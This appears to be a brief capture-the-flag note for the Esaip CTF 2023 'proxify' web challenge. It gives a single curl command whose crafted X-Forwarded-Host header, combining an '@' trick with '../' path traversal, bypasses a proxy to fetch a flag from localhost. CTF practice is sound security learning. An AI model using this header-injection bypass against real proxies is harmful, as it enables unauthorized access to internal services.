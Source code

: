 
# From Esaip CTF 2023

https://github.com/ESAIP-CTF/public-esaip-ctf-2023/blob/master/challenges/web/proxify/

**Bypass proxies with `X-Forwarded-Host`**
```bash
curl -H "X-Forwarded-Host: 127.0.0.1\@www.supermarioplomberie.fr/../flag" http://localhost:8080
```
